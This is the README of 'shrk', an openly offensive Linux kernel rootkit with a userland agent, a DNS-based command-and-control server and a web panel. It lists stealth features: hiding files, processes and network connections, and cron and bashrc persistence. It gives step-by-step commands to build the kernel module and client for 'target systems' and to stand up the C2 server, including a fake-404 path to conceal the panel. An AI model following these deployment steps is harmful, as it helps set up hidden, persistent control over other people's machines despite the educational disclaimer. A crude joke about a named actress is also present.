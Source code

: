 
<img align="left" width="100" height="100" src="assets/shrk.png">

# shrk | stealthy rootkit for modern kernels
shrk is a free (as in freedom) and open source GNU/Linux LKM rootkit for modern 64 bit kernels,
it comes with an userland agent, DNS based C2 server and a web interface

</br>

> [!CAUTION]
> This software is designed and shared only for educational and
> research purposes. It's is provided without warranty and the
> distribution platform or the developers of the software are not
> responsible for any material, moral or legal damage that may occur
> due to incorrect or unethical use of the software.

## screenshot
![](assets/showcase.png)

## features
- support for 5.15+ 64 bit kernels
- easy installation with automated shell script
- automated cron and bashrc persistence
- simple web interface and DNS based C2
- can hide/protect files, processes and network connections

## installation
to install the server on your local VPS:

### Option 1: Automated Installation (Recommended)

Run the automated installation script as root:

```bash
sudo ./install-server.sh
```

**Customization options:**
```bash
# Custom configuration
sudo ./install-server.sh --password "your_password" --path "/custom_path"

# Skip systemd service creation
sudo ./install-server.sh --no-systemd

# Skip building client components (server only)
sudo ./install-server.sh --no-clients

# Full customization
sudo ./install-server.sh \
    --password "mypassword" \
    --path "/secret_path" \
    --http-addr "0.0.0.0:8080" \
    --c2-addr "0.0.0.0:5353" \
    --http-url "https://mydomain.com:8080" \
    --c2-url "dns://mydomain.com:5353"
```

The script will:
- ✅ Detect your OS and install all required dependencies
- ✅ Build the server and client components
- ✅ Auto-detect your public IP for URLs
- ✅ Create systemd service for auto-start
- ✅ Configure firewall rules
- ✅ Create a manual start script
- ✅ Handle kernel module build failures gracefully

### Option 2: Manual Installation

1. **Install dependencies:**
   ```bash
   # For Ubuntu/Debian
   sudo apt update
   sudo apt install golang-go make gcc linux-headers-$(uname -r) build-essential
   
   # For CentOS/RHEL/Fedora
   sudo yum install golang make gcc kernel-devel kernel-headers
   # or for newer versions:
   sudo dnf install golang make gcc kernel-devel kernel-headers
   
   # For Arch Linux
   sudo pacman -S go make gcc linux-headers
   ```

   **Required dependencies breakdown:**
   - **Go 1.23.2+**: For building the server component
   - **GCC**: For compiling C code (kernel module and user client)
   - **Make**: For build automation
   - **Linux kernel headers**: Required for building the kernel module
   - **Build-essential** (Ubuntu/Debian): Contains additional build tools
   - **CGO**: Enabled by default in Go installation (needed for server build)

2. **Build all components:**
   ```bash
   # Build the server (C2 and web interface)
   cd server
   make
   cd ..
   
   # Build the kernel module (for target systems)
   cd kernel
   make
   cd ..
   
   # Build the user client (for target systems)
   cd user
   make
   cd ..
   
   # Create release package for client deployment
   make release
   ```

3. **Set environment variables and run the server:**
   ```bash
   export SHRK_PASSWORD=supersecret
   export SHRK_PATH=/no_one_here
   export SHRK_HTTP_ADDR=0.0.0.0:7070
   export SHRK_C2_ADDR=0.0.0.0:1053
   export SHRK_HTTP_URL=http://your-vps-ip:7070
   export SHRK_C2_URL=dns://your-vps-ip:1053
   
   cd server
   ./shrk_server.elf
   ```

   **Note:** The kernel module and user client are built for deployment on target systems. The server runs on your VPS to provide the C2 infrastructure and web interface.

**Important:** After updating the installation scripts, restart the server to ensure client installations use the latest version:
```bash
systemctl restart shrk
# or if running manually:
./start-shrk.sh
```

4. **Optional: Create a systemd service for auto-start:**
   ```bash
   sudo tee /etc/systemd/system/shrk.service > /dev/null <<EOF
   [Unit]
   Description=SHRK Rootkit Server
   After=network.target
   
   [Service]
   Type=simple
   User=root
   WorkingDirectory=/path/to/shrk/server
   Environment=SHRK_PASSWORD=supersecret
   Environment=SHRK_PATH=/no_one_here
   Environment=SHRK_HTTP_ADDR=0.0.0.0:7070
   Environment=SHRK_C2_ADDR=0.0.0.0:1053
   Environment=SHRK_HTTP_URL=http://your-vps-ip:7070
   Environment=SHRK_C2_URL=dns://your-vps-ip:1053
   ExecStart=/path/to/shrk/server/shrk_server.elf
   Restart=always
   
   [Install]
   WantedBy=multi-user.target
   EOF
   
   sudo systemctl enable shrk
   sudo systemctl start shrk
   ```

you can also set up HTTPS reverse proxy with nginx or apache if needed

also see the next section for a full list of available environment options

## confiugration
here's a full list of environment configuration variables:

- `SHRK_HTTP_ADDR`: address that the HTTP web interface will listen on
- `SHRK_C2_ADDR`: address that the C2 web interface will listen on
- `SHRK_HTTP_URL`: URL which the clients and the users will use to access the web interface
- `SHRK_C2_URL`: URL which the clients will use to access the C2 server
- `SHRK_SCRIPT`: path for the client installation script
- `SHRK_SOURCE`: path for the client source archive (`make release`)
- `SHRK_STATIC`: path for the static directory (contains static CSS and JS)
- `SHRK_VIEWS`: path for the views direcotry (contains render engine templates)
- `SHRK_DB`: path for the database directory (contains emma watson's nudes /s)
- `SHRK_PATH`: path that will serve the web interface (other paths will return a fake 404, it's just for protection)
- `SHRK_PASSWORD`: password for the web interface
- `SHRK_DEBUG`: enable/disable debug messages

you can set these as environment variables before running the server (as shown in the installation section)

## contribute
there are debug options for all the seperate pieces of this project, so feel free to play around with them
and feel free to contribute back to the project if you end up doing some cool things

also feel free to open up issues just to ask about stuff or just to make fun of my dogshit code

## resources
here are few resources I used during the development of this project:

- [LKM programming guide](https://sysprog21.github.io/lkmpg/)
- [xcellerator's kernel hacking guide](https://github.com/xcellerator/linux_kernel_hacking) (hooks are outdated)
- [Linux kernel teaching](https://linux-kernel-labs.github.io/refs/heads/master/)

also [bootlin](https://elixir.bootlin.com/linux) is so really good for digging up source, highly recommend it
